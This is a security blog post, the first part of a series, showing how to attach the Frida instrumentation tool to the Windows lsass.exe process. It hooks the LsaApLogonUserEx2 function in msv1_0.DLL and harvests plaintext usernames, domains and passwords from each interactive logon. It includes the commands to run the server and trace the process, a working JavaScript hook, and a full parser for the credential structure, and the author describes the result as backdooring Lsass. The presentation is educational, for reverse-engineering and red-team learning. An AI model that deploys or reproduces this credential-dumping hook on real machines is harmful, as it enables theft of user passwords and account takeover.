 ```yaml
---
title: Dumping Lsass with... Frida? (Part 1)
description: A blog about dynamic instrumentation of Lsass for fun and profit!
---
```


# Dumping Lsass with... Frida? (Part 1)

Recently I've been getting into [Frida](https://frida.re/), a great debugging and dynamic instrumentation tool with cross-platform support. Before I looked into it, I'd only ever heard of Frida as a tool for hacking mobile apps - I'd never considered it for anything else. However, I think Frida has just as much potential as a rapid prototyping tool for reverse engineering and exploit development. It's agile, portable and fast, which makes it an excellent choice for experimenting and tinkering with a process.

I've had advice in the past that writing your own Mimikatz implementation is one of the best ways to get familiar working with memory hacking in Windows. A credential dumper that requires you to execute and connect to a Frida server on the target probably wouldn't be your first choice on an engagement. However, it's also not something I've seen anyone else doing, and I hoped that the end result would be a kind of "intermediary" tool that could be trivially ported to other languages. 

In this first part, we'll focus on taking advantage of Frida's dynamic instrumentation features to backdoor Lsass remotely. In future articles, we'll explore dumping credentials directly from Lsass memory.

## Step 1: Exploring Lsass

You can find a wealth of tools and tutorials out there which discuss how mimikatz works and how to dump credentials from the process memory of Lsass. I wanted to make a start completely blind, though, and see what I could discover with Frida alone.

To start with, I spun up a Windows 10 VM and launched the latest version of Frida server as Administrator:

```powershell
> .\frida-server.exe -l 0.0.0.0
```

This opens a debugging server on port 27042, which we can connect to using Frida:

```bash
$ frida -H 192.168.1.120 lsass.exe
```

One of Frida's most powerful features is its dynamic instrumentation functionality, which lets us hook almost any function used by a process. Before we can do that, though, we need some situational awareness. There are a lot of different modules loaded by the *lsass.exe* process, which we can enumerate using `Process.enumerateModules()`:

```text
    {
        "base": "0x7ffd1ca30000",
        "name": "msv1_0.DLL",
        "path": "C:\\Windows\\system32\\msv1_0.DLL",
        "size": 483328
    },
```

Out of the many possible options, this one stands out - it's the Microsoft Authentication Package, which is invoked by LSA when a user performs an interactive logon. According to [Microsoft's documentation](https://learn.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package):

> The MSV1_0 package checks the local security accounts manager (SAM) database to determine whether the logon data belongs to a valid security principal and then returns the result of the logon attempt to the LSA.

If we're looking to hook into the authentication logic called by Lsass, this seems like a pretty good place to start.

## Step 2: Hooking MSV1_0

So, now we have a good idea of a target, but how do we know which functions to hook in order to extract credentials? This is where frida-trace comes to the rescue. We can simply specify the module we're interested in and hook all functions within it:

```bash
frida-trace -H 192.168.1.120 lsass.exe -i 'msv1_0.DLL!*'
```

We leave this running while we invoke an interactive logon somewhere on the target VM (i.e. using the *runas* command), and sure enough:

![a screenshot of various hooked functions including LsaApLogonUserEx2](/img/tracing-msv1_0.png)

I decided to go with the obvious choice here, and target the *LsaApLogonUserEx2()* function. Luckily for us, this function is actually [documented in the MSDN](https://docs.microsoft.com/en-us/windows/win32/api/ntsecpkg/nc-ntsecpkg-lsa_ap_logon_user_ex2). That will make hooking it a lot easier, as we know exactly what the arguments and expected return values are.

```text
LSA_AP_LOGON_USER_EX2 LsaApLogonUserEx2;

NTSTATUS LsaApLogonUserEx2(
  [in]  PLSA_CLIENT_REQUEST ClientRequest,
  [in]  SECURITY_LOGON_TYPE LogonType,
  [in]  PVOID ProtocolSubmitBuffer,
  [in]  PVOID ClientBufferBase,
  [in]  ULONG SubmitBufferSize,
  [out] PVOID *ProfileBuffer,
  [out] PULONG ProfileBufferSize,
  [out] PLUID LogonId,
  [out] PNTSTATUS SubStatus,
  [out] PLSA_TOKEN_INFORMATION_TYPE TokenInformationType,
  [out] PVOID *TokenInformation,
  [out] PUNICODE_STRING *AccountName,
  [out] PUNICODE_STRING *AuthenticatingAuthority,
  [out] PUNICODE_STRING *MachineName,
  [out] PSECPKG_PRIMARY_CRED PrimaryCredentials,
  [out] PSECPKG_SUPPLEMENTAL_CRED_ARRAY *SupplementalCredentials
)
```

Armed with this information, we can see that the thing we probably care about is the *PrimaryCredentials* variable, which is the 15th argument passed to the function. Now we know enough to write our own Frida script:

```text
var msv = Process.getModuleByName("msv1_0.DLL");
var logonUser = msv.getExportByName("LsaApLogonUserEx2");

Interceptor.attach(logonUser, {
	onEnter: function(args) {
		this.primaryCredentials = args[14];
	},
	onLeave: function(retval) {
		console.log("Address of primary credentials is " + this.primaryCredentials);
	}
});
```

So far, the script is pretty simple. We identify the address of the function and attach to it with Frida's interceptor. When the function is entered, we save the address of the PrimaryCredentials array. When the function exits, we print the address. To test it out, simply inject the script into Frida:

```bash
$ frida -H 192.168.1.120 lsass.exe -l LsaApLogonUserEx2.js
```

And invoke another interactive logon.

## Step 3: Parsing PrimaryCredentials

So, now we can hook the *LsaApLogonUserEx2()* function and get a pointer to the PrimaryCredentials structure. How do we turn that into actual credential information? The PrimaryCredentials structure is of type *PSECPKG_PRIMARY_CRED*, which means it's a pointer to a *SECPKG_PRIMARY_CRED* struct. Happily for us, that struct is [documented for us as well](https://docs.microsoft.com/en-us/windows/win32/api/ntsecpkg/ns-ntsecpkg-secpkg_primary_cred):

```text
typedef struct _SECPKG_PRIMARY_CRED {
  LUID           LogonId;
  UNICODE_STRING DownlevelName;
  UNICODE_STRING DomainName;
  UNICODE_STRING Password;
  UNICODE_STRING OldPassword;
  PSID           UserSid;
  ULONG          Flags;
  UNICODE_STRING DnsDomainName;
  UNICODE_STRING Upn;
  UNICODE_STRING LogonServer;
  UNICODE_STRING Spare1;
  UNICODE_STRING Spare2;
  UNICODE_STRING Spare3;
  UNICODE_STRING Spare4;
} SECPKG_PRIMARY_CRED, *PSECPKG_PRIMARY_CRED;
```

This gives us all the information we need to write our own parser in Frida. We can "walk" through the struct by starting from our pointer and adding the size of each struct member to get to the next one. For example, the size of a *LUID* struct is 0x8, so we can do:

```javascript
var logonId = this.primaryCredentials;
var downLevelName = logonId.add(0x8);
```

By iterating through in this way, we can eventually get pointers to the members we actually care about: *DownLevelName*, *DomainName*, *Password* and *OldPassword*. Each of these elements is a *UNICODE_STRING* struct, which requires a bit of parsing themselves. The final parsing function is as follows:

```javascript
function parsePrimaryCredentials(ptr) {
	// Parse the SECPKG_PRIMARY_CRED structure pass to LsaApLogonUserEx2. 64-bit only.
	// Input: a pointer to the SECPKG_PRIMARY_CRED structure to be parsed.
	
	var size_luid = 0x8; // https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/igpupvdev/ns-igpupvdev-_luid
	var size_unicode_string = 0x10; // https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/shared/ntdef/unicode_string.htm
	
	// Reference for struct members:
	// https://docs.microsoft.com/en-us/windows/win32/api/ntsecpkg/ns-ntsecpkg-secpkg_primary_cred

	// Calculate the address of each member by adding the sizeof the previous member.
	var logonId = ptr;
	var downLevelName = logonId.add ( size_luid );
	var domainName = downLevelName.add( size_unicode_string );
	var password = domainName.add( size_unicode_string );
	var oldPassword = password.add( size_unicode_string );

	// Read the length from each unicode string. Divide by 2 because we are reading UTF 16 strings.
	// Length is located at offset 0x0 in the UNICODE_STRING struct.
	var downLevelNameLength = downLevelName.readUShort() / 2;
	var domainNameLength = domainName.readUShort() / 2;
	var passwordLength = password.readUShort() / 2;
	var oldPasswordLength = oldPassword.readUShort() / 2;

	// Use the length values to read the correct number of bytes from each unicode string.
	// Buffer is located at offset 0x8 in the UNICODE_STRING struct.
	var downLevelNameBuffer = downLevelName.add(0x8).readPointer().readUtf16String(downLevelNameLength);
	var domainNameBuffer = domainName.add(0x8).readPointer().readUtf16String(domainNameLength);
	var passwordBuffer = password.add(0x8).readPointer().readUtf16String(passwordLength);
	var oldPasswordBuffer = oldPassword.add(0x8).readPointer().readUtf16String(oldPasswordLength);

	//Return results.
	var output = {
		"sam_account": downLevelNameBuffer,
		"domain": domainNameBuffer,
		"password": passwordBuffer,
		"old_password": oldPasswordBuffer
	}
	return output;
}
```

And the final result when running it against my Windows 10 VM and initiating an interactive logon:

![a screenshot of dumped credentials from a user logon](/img/dumping-msv1_0.png)

## Conclusion

Hooking functions and changing their behaviour is Frida's bread and butter, and we've demonstrated just how easy it is to backdoor Lsass with Frida. All you need to do so is a little bit of Javascript, a little bit of C struct knowledge, and local admin. In the next part, we'll move away from hooking functions. Instead, we'll look into replicating Mimikatz functionality by extracting credentials directly from memory.

<!--
Resources that helped me, which I should credit:

https://blog.xpnsec.com/exploring-mimikatz-part-1/
https://www.matteomalvica.com/blog/2020/01/20/mimikatz-lsass-dump-windg-pykd/
-->
